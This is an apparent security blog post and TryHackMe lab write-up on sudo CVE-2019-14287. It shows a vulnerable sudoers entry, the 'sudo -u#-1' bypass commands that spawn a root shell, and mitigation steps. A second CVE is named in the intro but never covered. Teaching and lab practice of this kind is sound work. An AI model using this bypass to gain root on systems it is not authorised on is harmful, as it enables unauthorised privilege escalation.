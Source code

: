```yaml
---
title: "Sudo CVEs"
description: 
date: 2025-01-23T14:14:48Z
image: post/cvesudo.jpg
math: 
license: 
hidden: false
comments: true
draft: false
tags: ["Privesc","kernel","Linux","Sudo","CVE"]
categories: ["Linux-Privilege-Escalation","Sudo-Attacks"] 
---
```


# Sudo CVEs

In this article, we will discuss sudo CVEs, specifically `CVE-2019-14287` and `CVE-2019-18634`, and how they allow us to achieve sudo privilege escalation on Linux systems.  

## **CVE-2019-14287**

CVE-2019-14287 is a vulnerability in `sudo` that allows a user with restricted privileges to execute arbitrary commands as **root**, even if they are explicitly denied in the `sudoers` file. This occurs due to improper validation of the user ID (`UID`) when running commands.

---

## **Details of the Vulnerability**

1. **Affected Software**:
    - `sudo` versions prior to **1.8.28**.
    
1. **Vulnerability Description**:
    - When `sudo` is configured to allow a user to execute commands as any user **except root** using the `!ALL` directive in the `sudoers` file, the vulnerability allows bypassing this restriction.
    - The issue arises because `sudo` does not properly handle the `-1` or `4294967295` value for the `UID`. Internally, these values are interpreted as `0` (root).
2. **Exploitation**:
    - A user can exploit this by specifying `-u#-1` to execute a command as root, bypassing the restrictions.

---

## **Proof of Concept (PoC)**

### 1. Vulnerable Configuration in `/etc/sudoers`:

The following configuration denies a user (`exampleuser`) from executing commands as root:

```plaintext
exampleuser ALL=(ALL,!root) ALL
```

### 2. Exploit Command:

The attacker can bypass the restriction and run commands as root:

```bash
sudo -u#-1 id
```

### 3. Expected Output:

The command will execute as root (`UID=0`):

```plaintext
uid=0(root) gid=0(root) groups=0(root)
```

---

## **Impact**

- **Privilege Escalation**: The attacker gains root privileges, bypassing intended restrictions.
- **Severity**: High (CVSS Score: 7.8).

---

## **Mitigation**

1. **Update `sudo`**:
    
    - Upgrade to **sudo 1.8.28** or later, which properly validates `UID` values.
    
    ```bash
    sudo apt update && sudo apt install sudo
    ```
    
2. **Audit and Restrict sudoers Configuration**:
    
    - Ensure your `sudoers` file does not rely solely on `!root` for user restrictions.
3. **Monitor and Log sudo Usage**:
    
    - Use logs to monitor unusual activity involving `sudo`.

---

## Labs :

- https://tryhackme.com/r/room/sudovulnsbypass

### TryHackMe Lab 

Now that we have access to the machine, our next goal is to gain root privileges using the identified vulnerability.

First, we use the command `sudo -l` to check what commands we can execute with the current user.

![image alt text](post/cves1.png)


After running `sudo -l`, we see that we can run `/bin/bash` as another user except for root. Let’s exploit this vulnerability.

```shell
sudo -u#-1 /bin/bash
```

![image alt text](/my_image.png)


And just like that, we are now the root user! :

### **References**

- [MITRE CVE Details](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)
